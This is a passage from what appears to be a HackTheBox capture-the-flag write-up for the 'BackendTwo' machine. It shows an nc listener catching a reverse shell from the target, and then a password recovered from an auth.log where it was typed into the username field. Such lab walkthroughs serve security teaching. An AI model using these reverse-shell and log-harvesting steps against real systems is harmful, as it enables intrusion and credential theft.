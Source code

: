 

Instantly there's a connection at `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.162 49378
    bash: cannot set terminal process group (1086): Inappropriate ioctl for device
    bash: no job control in this shell
    To run a command as administrator (user "root"), use "sudo <command>".
    See "man sudo_root" for details.

    htb@BackendTwo:~$



The site is also down, as requests to it just hang. Luckily, this server
has clean up scripts running periodically to reset things. In less than
30 seconds, the shell dies, and the site is back up.

## Shell as root

### Enumeration

#### Find Password

In htb's home directory, there's an `auth.log` from the API application.
Looking at it, there's a clear case of where someone accidentally put in
their password in the username field:



    htb@BackendTwo:~$ cat auth.log 
    04/27/2022, 20:15:33 - Login Success for admin@htb.local
    04/27/2022, 20:18:53 - Login Success for admin@htb.local
    04/27/2022, 20:32:13 - Login Success for admin@htb.local
    04/27/2022, 20:35:33 - Login Success for admin@htb.local
    04/27/2022, 20:40:33 - Login Success for admin@htb.local
    04/27/2022, 20:43:53 - Login Success for admin@htb.local
    04/27/2022, 20:57:13 - Login Success for admin@htb.local
    04/27/2022, 21:05:33 - Login Success for admin@htb.local
    04/27/2022, 21:07:13 - Login Success for admin@htb.local
    04/27/2022, 21:13:53 - Login Success for admin@htb.local
    04/27/2022, 21:22:13 - Login Failure for 1qaz2wsx_htb!
    04/27/2022, 21:23:48 - Login Success for admin@htb.local
    04/27/2022, 21:23:53 - Login Success for admin@htb.local
    04/27/2022, 21:24:13 - Login Success for admin@htb.local
    04/27/2022, 21:25:33 - Login Success for admin@htb.local
    04/27/2022, 21:30:33 - Login Success for admin@htb.local
    04/27/2022, 21:37:13 - Login Success for admin@htb.local



This is left over from the first
[Backdend](/htb-backend.md#enumeration), though it's a new
password. Sometimes when no one gets far enough to see a step in a UHC
box, IppSec reuses one.
